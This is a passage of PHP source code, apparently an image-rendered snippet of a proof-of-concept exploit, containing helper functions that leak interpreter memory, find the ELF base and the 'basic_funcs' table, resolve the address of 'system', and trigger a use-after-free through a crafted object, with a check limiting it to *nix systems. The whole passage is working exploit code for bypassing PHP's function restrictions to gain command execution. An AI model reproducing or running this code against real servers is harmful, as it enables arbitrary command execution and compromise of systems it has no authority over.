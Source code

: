 ```php
        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

```